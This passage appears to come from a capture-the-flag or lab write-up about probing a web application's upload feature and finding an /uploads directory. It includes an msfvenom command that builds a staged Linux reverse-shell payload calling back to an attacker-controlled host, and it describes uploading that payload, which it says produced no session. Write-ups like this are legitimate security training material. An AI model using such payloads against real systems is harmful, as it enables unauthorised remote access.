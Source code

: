 ![cocker](./images/cocker_preview.png)

We can also see that these files were saved in different directory - `/uploads`.

While previewing folder `/uploads`, the webpage responded with HTTP 404 status code.

# Reverse Shell
Since accessing images was possible, we tried to upload reverse shell. We used `msfvenom` to create staged reverse shell.

`msfvenom -p linux/x86/shell/reverse_tcp LHOST=<local ip address> LPORT=4444 -f elf > reverse_payload.elf`.

We managed to upload it. We also set listener but no session was created.
